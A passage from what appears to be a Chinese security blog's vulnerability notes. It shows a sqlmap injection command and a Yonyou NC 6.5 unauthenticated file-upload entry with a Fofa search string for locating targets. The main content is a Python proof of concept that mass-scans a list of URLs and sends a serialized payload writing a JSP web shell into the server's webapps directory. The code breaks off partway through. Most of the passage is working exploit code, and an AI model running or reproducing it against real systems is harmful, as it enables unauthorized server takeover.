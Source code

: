 `sqlmap` 跑注入：

```shell
sqlmap -r text.txt -p username 
```

![image-20220420130305834](https://fastly.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420130305834.png)



### 3.4 用友 `NC 6.5` 未授权文件上传漏洞

用友 `NC6.5` 版本存在未授权文件上传漏洞，攻击者可以未授权上传任意文件，进而获取服务端控制权限。

Fofa:

```
"/platform/yonyou-yyy.js"
```

POC:

```python
import requests
import threadpool
import urllib3
import sys
import argparse

urllib3.disable_warnings()
proxies = {'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}
header = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "https://google.com",
}

def multithreading(funcname, filename="url.txt", pools=5):
    works = []
    with open(filename, "r") as f:
        for i in f:
            func_params = [i.rstrip("\n")]
            works.append((func_params, None))
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(funcname, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()

def wirte_targets(vurl, filename):
    with open(filename, "a+") as f:
        f.write(vurl + "\n")
        return vurl
    
def exp(u):
    uploadHeader = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "multipart/form-data;",
        "Referer": "https://google.com"
    }
    uploadData = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x02\x74\x00\x09\x46\x49\x4c\x45\x5f\x4e\x41\x4d\x45\x74\x00\x09\x74\x30\x30\x6c\x73\x2e\x6a\x73\x70\x74\x00\x10\x54\x41\x52\x47\x45\x54\x5f\x46\x49\x4c\x45\x5f\x50\x41\x54\x48\x74\x00\x10\x2e\x2f\x77\x65\x62\x61\x70\x70\x73\x2f\x6e\x63\x5f\x77\x65\x62\x78"
    shellFlag="t0test0ls"
```